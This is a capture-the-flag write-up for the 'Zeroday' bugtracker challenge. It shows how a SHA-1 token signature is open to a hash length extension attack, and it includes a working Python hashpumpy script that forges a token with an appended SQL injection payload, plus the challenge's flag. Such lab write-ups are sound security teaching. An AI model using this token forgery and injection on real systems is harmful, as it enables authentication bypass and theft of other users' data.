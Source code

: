 # Zeroday

## Challenge Description
Found too many zerodays to keep count of them? Zeroday is your new bugtracker.

Beta version access available only for our partners. Stay tuned for open access.

## Initial Analysis
The challenge provides a web application that serves as a bugtracker called "Zeroday". It allows users to log in and view their reported bugs.

Upon analyzing the provided `app.js` code, we notice the following:
- The application uses Express.js as the web framework and SQLite as the database.
- User authentication is implemented using a custom library called `smoltok` for token-based authentication.
- The `smoltok` library is used to encode and decode user tokens, which are stored as cookies.
- The application retrieves the user's bugs from the database based on the authenticated user's username.

Further investigation reveals that the `smoltok` library used in the application is intentionally vulnerable. It uses SHA-1 for token signature generation and verification, which is known to be susceptible to hash extension attacks.

## Vulnerability
The vulnerability in this challenge lies in the use of the `smoltok` library for token-based authentication. The library uses SHA-1 to generate and verify token signatures, which is vulnerable to hash extension attacks.

By exploiting this vulnerability, an attacker can manipulate the token to bypass authentication and perform SQL injection to retrieve bugs belonging to other users, including the admin user.

## Exploitation
To exploit this vulnerability and retrieve the flag, we can use a tool like `hashpump` or a library like `hashpumpy` to perform a hash extension attack on the token.

Here's an example exploitation using `hashpumpy`:

```python
import requests
import hashpumpy
import base64

def pad_base64(base64_string):
    pad_length = (4 - (len(base64_string) % 4)) % 4
    return base64_string + "=" * pad_length

# Original token obtained from the application
original_token = "dXNlcm5hbWU9YWRhbQ.k00XTCj1253CrzegGnm91y/xvjc"

token_data = pad_base64(original_token.split(".")[0]) # cause smoltok removed padding
token_signature = pad_base64(original_token.split(".")[1]) # cause smoltok removed padding

data_bytes = base64.b64decode(token_data)
signature_bytes = base64.b64decode(token_signature)

signature_hex = signature_bytes.hex()

original_data = data_bytes
appended_data = b"' or '1' = '1" # sql injection here, return not only adam's bugs
original_hash = signature_hex
secret_length = 128 # signature lenght is known

result = hashpumpy.hashpump(original_hash, original_data, appended_data, secret_length) # extension attack
new_hash, new_data = result

new_token_data = base64.b64encode(new_data)
new_token_signature = base64.b64encode(bytes.fromhex(new_hash))

# construct new token
new_token = new_token_data.decode().replace("=", "") + "." + new_token_signature.decode().replace("=", "") 

print(new_token)
```

1. Obtain a valid token from the application by logging in as a normal user (you can find credentials for `adam` in the code).
1. Split the token into the data and signature parts.
1. Use `hashpumpy` to perform a hash extension attack on the token, appending a SQL injection payload to the data part.
1. Construct a new token with the modified data and the new signature.
1. Replace old token with a new token in your browser to get the flag.

Flag: `1753c{well_youve_just_found_a_zero_day_on_npm}`

## Conclusion

The "Zeroday" challenge demonstrates the risks associated with using vulnerable libraries and the importance of secure token-based authentication mechanisms. The use of the intentionally vulnerable `smoltok` library, which relies on SHA-1 for token signature generation and verification, allows attackers to perform hash extension attacks and bypass authentication.

By exploiting this vulnerability, an attacker can manipulate the token to perform SQL injection and retrieve sensitive information, such as bugs belonging to other users, including the admin user.

This challenge highlights the need for thorough security assessments of third-party libraries and the importance of using secure cryptographic algorithms for authentication and signature generation. It also emphasizes the significance of input validation and parameterized queries to prevent SQL injection attacks.

By leveraging tools like `hashpump` or libraries like `hashpumpy`, participants can exploit the vulnerability in the `smoltok` library and retrieve the flag from the admin user's bugs.
